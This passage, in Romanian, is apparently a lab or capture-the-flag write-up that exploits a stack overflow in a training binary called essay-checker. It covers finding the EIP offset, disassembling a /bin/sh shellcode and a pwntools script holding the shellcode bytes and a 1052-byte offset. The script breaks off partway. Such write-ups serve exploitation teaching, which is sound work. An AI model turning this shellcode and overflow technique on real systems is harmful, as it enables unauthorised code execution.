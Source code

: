 Dând numele fișierul generat (`payload.bin`) ca argument executabilului, observăm că o eroare este produsă. Din ieșirea comenzii `dmesg`, putem observa că registrul `eip` a fost suprascris cu o valoare care nu poate fi dereferențiată. Luând acea valoare și convertind-o în ASCII (obținând un șir de caractere pe care în notăm cu `EIP_VALUE`), putem afla distanța dintre începutul *buffer*-ului și valoarea ce suprascrie registrul `eip` tot din interpretorul deschis anterior, cu ajutorul comenzii `generator.find(EIP_VALUE)`.

Vizitând *website*-ul menționat în enunț, putem alege un *shellcode* care să lanseze un *shell* (de exemplu, [acesta](http://shell-storm.org/shellcode/files/shellcode-841.php)). Copiind șirul de octeți ce îl reprezintă într-un fișier numit `shellcode.bin`, putem folosi comanda `objdump -b binary -m i386 -D shellcode.bin` pentru a-l dezasambla.

```text
shellcode.bin:     file format binary

Disassembly of section .data:

00000000 <.data>:
   0:   31 c9                   xor    ecx,ecx
   2:   f7 e1                   mul    ecx
   4:   b0 0b                   mov    al,0xb
   6:   51                      push   ecx
   7:   68 2f 2f 73 68          push   0x68732f2f
   c:   68 2f 62 69 6e          push   0x6e69622f
  11:   89 e3                   mov    ebx,esp
  13:   cd 80                   int    0x80
  15:   0a                      .byte 0xa
```

*Payload*-ul final se va folosi și de simbolul menționat, `helper`. Acesta execută instrucțiunea `call %esp`, ceea ce mută fluxul programului pe stivă, octeții executați fiind cei imediat de sub adresa de retur.

Structura *payload*-ului este următoarea:

```text
+-----------------------+-------------------------------+-----------+
|                       |                               |           |
| 1052 bytes of garbage | 4 bytes for address of helper | shellcode |
|                       |                               |           |
+-----------------------+-------------------------------+-----------+
```

Crearea *payload*-ului și exploatarea efectivă a programului pot fi găsite în *script*-ul de mai jos.

```python
#!/usr/bin/env python3

from pwnlib import elf
from pwnlib.tubes import process
from pwnlib.util.packing import p32
from pwn import log

EXECUTABLE_PATH = "../../Exerciții/essay-checker/essay-checker.elf"
HELPER_SYMBOL = "helper"
EIP_OFFSET = 1052
BIN_SH_SHELLCODE = b"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
PAYLOAD_FILENAME = "payload.bin"


def main() -> None:
    # Preia simbolul funcției helper
    executable = elf.ELF(EXECUTABLE_PATH, checksec=False)
    helper_address = executable.symbols[HELPER_SYMBOL]
    log.info("Adresa funcției '{}' este {}.".format(HELPER_SYMBOL,
                                                    hex(helper_address)))
```